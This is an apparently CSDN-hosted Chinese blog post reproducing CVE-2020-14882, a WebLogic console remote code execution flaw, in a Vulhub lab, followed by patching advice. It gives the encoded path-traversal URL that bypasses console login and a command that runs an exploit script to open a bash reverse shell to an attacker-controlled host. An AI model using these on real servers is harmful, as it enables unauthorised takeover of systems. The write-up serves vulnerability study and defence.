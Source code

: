 **目录**

[漏洞背景](#t0 "漏洞背景")

[漏洞影响版本](#t1 "漏洞影响版本")

[漏洞复现](#t2 "漏洞复现")

[环境搭建](#t3 "环境搭建")

[未授权访问](#t4 "未授权访问")

[执行payload后回显](#t5 "执行payload后回显")

[漏洞修复](#t6 "漏洞修复")

* * *

漏洞背景
----

2020年10月30日，Oracle 官方的发布最新漏洞，该漏洞编号为 CVE-2020-14882 ，漏洞等级：严重 ，漏洞评分：9.8 。远程攻击者可以构造特殊的 HTTP 请求，在未经身份验证的情况下接管 [WebLogic](https://so.csdn.net/so/search?q=WebLogic&spm=1001.2101.3001.7020) Server Console ，并在 WebLogic ServerConsole 执行任意代码。

漏洞影响版本
------

*   Oracle WeblogicServer 10.3.6.0.0
*   Oracle WeblogicServer 12.1.3.0.0
*   Oracle WeblogicServer 12.2.1.3.0
*   Oracle WeblogicServer 12.2.1.4.0
*   Oracle WeblogicServer 14.1.1.0.0

漏洞复现
----

### 环境搭建

使用Vulhub的CVE-2020-14882漏洞环境来复现，如下启动漏洞环境。

![](https://img-blog.csdnimg.cn/20210206155815574.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

url：[http://192.168.106.6:7001/console/login/LoginForm.jsp](http://192.168.106.6:7001/console/login/LoginForm.jsp "http://192.168.106.6:7001/console/login/LoginForm.jsp")

![](https://img-blog.csdnimg.cn/20210206165316733.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 未授权访问

未授权访问：[http://192.168.106.6:7001/console/css/%252e%252e%252fconsole.portal](http://192.168.106.6:7001/console/css/%252e%252e%252fconsole.portal "http://192.168.106.6:7001/console/css/%252e%252e%252fconsole.portal")

![](https://img-blog.csdnimg.cn/20210206160332574.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 执行payload后回显

脚本批量探测与利用

![](https://img-blog.csdnimg.cn/20210206170647778.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

反弹shell

```
python3 利用.py -u http://192.168.106.6:7001 -c "bash -i >& /dev/tcp/192.168.106.1/4444 0>&1"
```


![](https://img-blog.csdnimg.cn/20210206173516769.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20210206173441471.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

漏洞修复
----

1.  建议用户及时将 Weblogic 后台/console/console.portal 对外的访问权限暂时关闭。
2.  此次 Oracle 官方的 CPU已发布了针对该漏洞的补丁，请受影响用户及时下载补丁程序并安装更新。

注：Oracle官方补丁需要用户持有正版软件的许可账号，使用该账号登陆https://support.oracle.com后，可以下载最新补丁。

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

参考文章：[CVE-2020-14882 eblogic Console远程代码执行漏洞复现（豪华版）](https://mp.weixin.qq.com/s/o3kiiHKvjqkLknSej1xKrw "CVE-2020-14882 eblogic Console远程代码执行漏洞复现（豪华版）")

                  [Weblogic 管理控制台未授权远程命令执行漏洞（CVE-2020-14882，CVE-2020-14883）](https://github.com/vulhub/vulhub/blob/master/weblogic/CVE-2020-14882/README.zh-cn.md "Weblogic 管理控制台未授权远程命令执行漏洞（CVE-2020-14882，CVE-2020-14883）")